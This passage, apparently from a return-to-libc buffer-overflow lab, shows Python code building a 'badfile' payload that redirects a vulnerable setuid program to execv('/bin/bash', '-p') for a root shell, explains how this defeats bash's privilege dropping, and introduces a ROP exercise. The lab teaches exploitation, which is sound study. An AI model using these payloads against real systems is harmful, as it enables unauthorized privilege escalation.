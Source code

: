 ```python
content[argv0_offset:argv0_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# argv[1]: Address of "-p"
content[argv1_offset:argv1_offset+4] = (dash_p_addr).to_bytes(4, byteorder='little')

# argv[2]: NULL (4 bytes of zero)
content[argv2_offset:argv2_offset+4] = (0).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

#### Step 4: Test the Exploit

1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a root shell.

---

#### Explanation of the Exploit

1. The payload overwrites the return address to point to `execv()`.
2. The arguments for `execv()` are placed on the stack:
   - `pathname` points to the string `/bin/bash`.
   - `argv[]` is an array containing:
     - `argv[0]`: Address of `/bin/bash`.
     - `argv[1]`: Address of `-p`.
     - `argv[2]`: `NULL`.
3. When `execv()` is executed, it invokes `/bin/bash -p`, bypassing the privilege-dropping countermeasure and giving you a root shell.

There are many ways to solve the problem in Task 4. Another way is to invoke setuid(0) before invoking
system(). The setuid(0) call sets both real user ID and effective user ID to 0, turning the process
into a non-Set-UID one (it still has the root privilege). This approach requires us to chain two functions
together. The approach was generalized to chaining multiple functions together, and was further generalized
to chain multiple pieces of code together. This led to the Return-Oriented Programming (ROP).
Using ROP to solve the problem in Task 4 is quite sophisticated, and it is beyond the scope of this lab.
However, we do want to give students a taste of ROP, asking them to work on a special case of ROP. In the
retlib.c program, there is a function called foo(), which is never called in the program. That function
is intended for this task. Your job is to exploit the buffer-overflow problem in the program, so when the
program returns from the bof() function, it invokes foo() 10 times, before giving you the root shell. In
your lab report, you need to describe how your input is constructed. Here is what the results will look like.
